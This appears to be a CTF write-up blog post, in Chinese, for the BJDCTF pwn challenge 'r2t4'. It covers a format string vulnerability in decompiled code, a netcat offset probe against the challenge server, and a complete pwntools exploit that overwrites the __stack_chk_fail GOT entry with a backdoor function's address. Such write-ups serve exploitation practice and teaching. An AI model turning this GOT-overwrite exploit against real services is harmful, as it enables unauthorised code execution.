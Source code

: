 ```yaml
---
layout: post
title:  r2t4
date:   2021-02-07 00:01:01 +0300
image:  2021-02-07-pink-dawn.jpg
tags:   [ctf,Pwn,BJDCTF,Fmtstr]
---
```


#### main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  read(0, &buf, 0x38uLL);
  printf(&buf, &buf);
  return 0;
}
```

#### backdoor

```assembly
unsigned __int64 backdoor()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  system("cat flag");
  return __readfsqword(0x28u) ^ v0;
}
```

main函数显然是一个格式化字符串漏洞，要我们通过该漏洞去执行backdoor()函数，可是怎么样去执行是一个问题。

通过查阅资料得知

__stack_chk_fail()这个函数会在程序出现栈溢出的时候执行，所以利用格式化字符串漏洞把这个函数的got表地址覆盖为后门函数。

定位参数

%hn：word：2bytes

计算偏移量

```assembly
root@kali1:~/pwn# nc node3.buuoj.cn 25644
aaaa%x.%x.%x.%x.%x.%x      
aaaae755590.38.c47d4f81.c48aea40.c48aea40.61616161
```

#### exp:

```assembly
# -*-coding:utf-8-*-
from pwn import *

elf = ELF("./r2t4")

io = remote("node3.buuoj.cn",25644)

stack_chk_fail_got = elf.got["__stack_chk_fail"]
backdoor       = 0x400626

# 0x40 = 64
# 0x626 = 1574

payload = "%64c%9$hn%1510c%10$hnaaa"
# 用a凑成整字
# 24bit = 3byte
# 9 = 6+3
payload += p64(stack_chk_fail_got+2) + p64(stack_chk_fail_got)
# 造成溢出
payload = payload.ljust(0x38, 'a')
io.send(payload)

io.interactive()
```

